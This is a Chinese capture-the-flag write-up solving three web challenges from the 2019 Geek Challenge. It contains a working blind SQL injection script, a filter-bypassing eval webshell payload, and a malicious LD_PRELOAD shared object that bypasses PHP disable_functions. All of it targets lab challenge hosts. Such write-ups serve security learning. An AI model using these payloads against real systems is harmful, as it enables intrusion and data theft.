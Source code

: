 # 极客大挑战 2019

## Web

### BuyFlag

通过查看 `index.php` 源代码可以发现 `pay.php`，通过查看 `pay.php` 源代码可以发现以下内容

```php
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
```

通过构造 payload `password="404"` 发现并没有什么反应，然后继续在 NetWork 里面寻找答案。在寻找的过程中，发现 Request Headers 内包含 Cookie `user=0` ，故尝试修改为 `user=1` 后出现新提示 Wrong Password。因此重新构造 payload `password=404a` 发现成功力，但是提示需要给钱（

> is\_numeric() 函数用于检测变量是否为数字或数字字符串
>
> 但当一个整型和一个其他类型行比较的时候，会先把其他类型数字化再比，因此可以通过空字符 `%00` 或字母实现绕过
>
> strcmp() 函数用于比较两个字符串
>
> 若传入的参数为数组则返回 NULL ，NULL==0 为 bool(true)，因此可以通过传入数组进行绕过

尝试构造 payload `money=100000000` 发现提示 Nember lenth is too long，故修改 payload 为 `money[]=1`

### FinalSQL

通过测试发现并不存在单双引号，空格、`and` 也被过滤了，`/**/` 绕过也不行，并不存在报错注入，尝试布尔注入。

```python
import time
import requests

url = 'http://f5e437d3-ba10-41e1-a677-dab0531a7037.node4.buuoj.cn:81/search.php'
results = []
session = requests.Session()

for i in range(1,43):
    start = 32
    end = 127
    for j in range(start, end):
        mid = (start + end) // 2
        data = {"id": f"0^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))>{mid})"}
        time.sleep(0.1)
        ret = session.get(url, params=data)
        #print(ret.text)
        if 'NO!' in ret.text:
            start = mid
        else:
            end = mid
        if (end - start) <= 1:
            results.append(chr(end))
            print(''.join(results))
            break
```

可以得到表名 `F1naI1y,Flaaaaag` ，通过修改 data 如下

```python
data = {"id": f"0^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='Flaaaaag')),{i},1))>{mid})"}
```

可以得到列名 `id,fl4gawsl` ，通过修改 data 如下

```python
data = {"id": f"0^(ascii(substr((select(group_concat(fl4gawsl))from(Flaaaaag)),{i},1))>{mid})"}
```

得到回显 `NO!!Not!this!!Click!others~~~,yingyingying` ，看来被骗了，那就修改 data 如下

```python
data = {"id": f"0^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),{i},1))>{mid})"}
```

得到回显 `id,username,password` ，通过修改 data 如下

```python
data = {"id": f"0^(ascii(substr((select(group_concat(username))from(F1naI1y)),{i},1))>{mid})"}
```

得到回显 `mygod,welcome,site,site,site,site,Syc,finally,flag` ，看来离成功更进一步了（确信），修改 data 如下

```python
data = {"id": f"0^(ascii(substr((select(group_concat(password))from(F1naI1y)where(username='flag')),{i},1))>{mid})"}
```

得到回显 `flag{301e4296-b8db-462e-a4e0-6253e9b8dafe}` 。

### RCE ME

题目如下。

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>40){
        die("This is too Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
// ?>
```

限制条件如下：

1. Payload 长度不超过 40 ；
2. Payload 不包含数字和字母。

因此尝试用取反 URLEncode 编码绕过，通过以下方式构造 Payload 。

```php
echo urlencode(~"assert");
// %9E%8C%8C%9A%8D%8B
echo urlencode(~'eval($_POST[1]);');
// %9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4
// Payload: code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4);
```

即可通过蚁剑发现文件 `readflag` ，但是它是一个文件并且通过蚁剑的 shell 无法执行，猜测需要绕过 disable functions ，先构造 Payload 如下来找出 disable functions 的值。

```php
echo urlencode(~"phpinfo");
// %8F%97%8F%96%91%99%90
// Payload: code=(~%8F%97%8F%96%91%99%90)();
```

可以得到被禁用的方法如下：

* pcntl\_alarm
* pcntl\_fork
* pcntl\_waitpid
* pcntl\_wait
* pcntl\_wifexited
* pcntl\_wifstopped
* pcntl\_wifsignaled
* pcntl\_wifcontinued
* pcntl\_wexitstatus
* pcntl\_wtermsig
* pcntl\_wstopsig
* pcntl\_signal
* pcntl\_signal\_get\_handler
* pcntl\_signal\_dispatch
* pcntl\_get\_last\_error
* pcntl\_strerror
* pcntl\_sigprocmask
* pcntl\_sigwaitinfo
* pcntl\_sigtimedwait
* pcntl\_exec
* pcntl\_getpriority
* pcntl\_setpriority
* pcntl\_async\_signals
* system
* exec
* shell\_exec
* popen
* proc\_open
* passthru
* symlink
* link
* syslog
* imap\_open
* ld
* dl

可以利用环境变量 LD\_PRELOAD 劫持系统函数，让外部程序加载恶意 \*.so ，达到执行系统命令的效果，先编写恶意类如下。

```c
// ld.c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

__attribute__ ((__constructor__)) void angel (void){
    unsetenv("LD_PRELOAD");
    system("/readflag > /tmp/readflag");
}
```

通过以下命令进行编译为共享对象。

```shell
gcc -shared -fPIC ld.c -o ld.so
```

将该恶意文件上传至 `/tmp` 中，并构造 Payload 如下。

```
params: code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4);
body: 1=putenv("LD_PRELOAD=/tmp/ld.so");mail("","","","");
```

之后就能在蚁剑通过查看 `/tmp/readflag` 得到 flag 。
